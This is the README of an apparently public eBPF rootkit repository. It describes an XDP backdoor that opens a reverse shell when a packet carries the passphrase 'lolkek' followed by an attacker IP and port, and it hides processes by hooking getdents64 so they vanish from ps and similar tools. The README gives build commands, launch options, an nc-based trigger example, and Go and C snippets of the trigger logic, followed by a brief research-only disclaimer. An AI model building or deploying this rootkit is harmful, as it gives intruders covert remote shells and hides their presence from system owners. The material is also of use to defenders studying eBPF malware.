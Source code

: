 # eBPF-rootkit

This repository contains an eBPF rootkit that combines 2 main functions:

Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from tools like `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y clang llvm libbpf-dev linux-headers-$(uname -r)  
go get github.com/cilium/ebpf

# Building and Running

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

## Usage

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```


To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.123.200 4444
```

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

...
```

and the number of bytes received from tcp payload is equal to the number of characters sent for the backdoor. Now this number is equal to 27
```bash
lolkek 192.168.123.200 4444 #27 characters
```

```C
//GET TCP DATA
unsigned char *tcpdata = (unsigned char *)tcp + tcp_header_bytes;

if ((void *)(tcpdata + 27) > data_end) {
    return XDP_PASS;
}

// Reserve space in the ring buffer
void *ringbuf_space = bpf_ringbuf_reserve(&xdprb, tcp_header_bytes, 0);
if (!ringbuf_space) {
    return XDP_PASS;  // If reservation fails, skip processing
}

// Copy the TCP header bytes into the ring buffer
// Using a loop to ensure compliance with eBPF verifier
for (int i = 0; i < 27; i++) {
    unsigned char byte = *((unsigned char *)tcpdata + i);
    ((unsigned char *)ringbuf_space)[i] = byte;
}
```

**To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell. And the number of bytes to be received.**

After changing the passphrase, you need to rebuild the project:

`go build -o ebpf-rootkit`


### Disclaimer
This tool is intended for educational purposes and security research only. Using this tool on systems without proper authorization may be illegal.
